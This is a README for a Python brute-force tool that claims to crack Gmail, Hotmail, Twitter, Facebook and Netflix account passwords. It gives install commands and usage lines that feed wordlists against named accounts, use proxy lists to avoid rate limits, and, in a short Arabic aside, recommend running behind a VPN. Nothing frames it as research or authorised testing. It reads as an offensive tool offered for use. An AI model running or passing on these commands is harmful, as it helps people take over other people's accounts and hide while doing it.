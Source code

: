 # Brute_Force
[![Python 3.7](https://img.shields.io/badge/Python-3.7-blue.svg)](http://www.python.org/download/)
[![GPL](https://img.shields.io/badge/GPL-V3.0-red.svg)](https://www.gnu.org/licenses/gpl-3.0.html)
[![Termux](https://img.shields.io/badge/Termux-Android-brightgreen.svg)](https://termux.com/)
![platform](https://img.shields.io/badge/Platform-Linux%7CMacOS%7CWindows-brightgreen.svg)
![alt text](https://1.bp.blogspot.com/-oPEVZN0ymsc/XS59nlfrrgI/AAAAAAAAPmI/5TsU1GjCzsE32ognWuV1xI-5jUvLjCkdgCLcBGAs/s1600/Brute_Force_1.png)
![alt text](https://1.bp.blogspot.com/-SIeGPGxLUWQ/XS59nkXfYEI/AAAAAAAAPmM/P0-rKgkEjm0iFTrhpwhxBAV7vAKAo0KPQCLcBGAs/s1600/Brute_Force_2.png)

## install :
```bash
sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize
```


# Usage:

## BruteForce Gmail Attack
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


## BruteForce Hotmail Attack
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


## BruteForce Twitter Attack

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt

```
## BruteForce Facebook Attack

```bash
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.txt
```
## BruteForce Netflix Attack

```bash
يفضل تشغيل VPN
Start On Vpn
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt


وترقبووو المزيد 
```



